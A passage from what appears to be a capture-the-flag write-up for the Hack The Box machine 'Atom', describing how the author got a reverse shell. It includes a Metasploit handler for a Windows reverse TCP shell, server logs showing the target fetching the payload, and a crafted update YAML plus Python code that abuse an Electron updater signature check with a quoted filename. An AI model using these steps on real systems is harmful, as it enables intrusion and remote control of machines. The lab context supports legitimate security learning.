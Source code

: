 ```bash
```

I was getting a hit and no shell:

```bash
10.10.10.237 - - [02/Jun/2021 15:53:19] code 404, message File not found
10.10.10.237 - - [02/Jun/2021 15:53:19] "GET /heed'Setup.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [02/Jun/2021 15:53:19] "GET /heed%27Setup.exe HTTP/1.1" 200 -


...[msfconsole]...

┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.39:9001 
```

I fixed a couple of issues with my filepaths, then tried replicating my friend's commands exactly. The only differences between mine and his were his use of port 443 (a mistake on my part, as Windows often only trusts well-known ports for reverse shells) and the filename. After changing my port and still not getting a shell, I changed my filename to `h'eed`:

![[Pasted image 20210625215523.png]]

And got a shell!

![[Pasted image 20210625215555.png]]

### Final YAML

This was the final YAML I used:

```yaml
version: 2.1.9
path: http://10.10.14.39/h'eed.exe
sha512: yZCEOg74ydXD0uguleSFIfA0OwPL3dh2Q5qM/m/DU5KN8/a0nr1CfMU2S+sIL/6Q/JsUtsJCOF3C3mUYk6X1Fg==
```

Which was represented in my Python script as:

```python
yml_string = ("version: 2.1.9\n"
	"path: http://{ip}/{payload}\n"
	"sha512: {sha}"
	).format(ip=ip, payload=payload, sha=sum)
```
